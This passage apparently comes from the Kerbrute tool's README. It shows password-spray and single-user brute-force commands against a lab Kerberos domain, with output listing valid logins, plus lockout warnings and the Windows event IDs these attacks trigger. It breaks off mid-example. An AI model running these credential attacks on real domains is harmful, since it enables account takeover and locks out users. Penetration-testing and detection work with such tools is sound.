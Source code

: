 With `passwordwpray`, Kerbrute will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. WARNING: this does will increment the failed login count and lock out accounts. This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

	root@kali:~# ./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123

	    __             __               __
	   / /_____  _____/ /_  _______  __/ /____
	  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
	 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
	/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

	Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

	2019/03/06 21:37:29 >  Using KDC(s):
	2019/03/06 21:37:29 >   pdc01.lab.ropnop.com:88

	2019/03/06 21:37:35 >  [+] VALID LOGIN:  callen@lab.ropnop.com:Password123
	2019/03/06 21:37:37 >  [+] VALID LOGIN:  eshort@lab.ropnop.com:Password123
	2019/03/06 21:37:37 >  Done! Tested 2755 logins (2 successes) in 7.674 seconds

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='57'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='833' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/ropnop/kerbrute#brute-user)Brute User

This is a traditional bruteforce account against a username. Only run this if you are sure there is no lockout policy! This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

	root@kali:~# ./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman

	    __             __               __
	   / /_____  _____/ /_  _______  __/ /____
	  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
	 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
	/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

	Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop
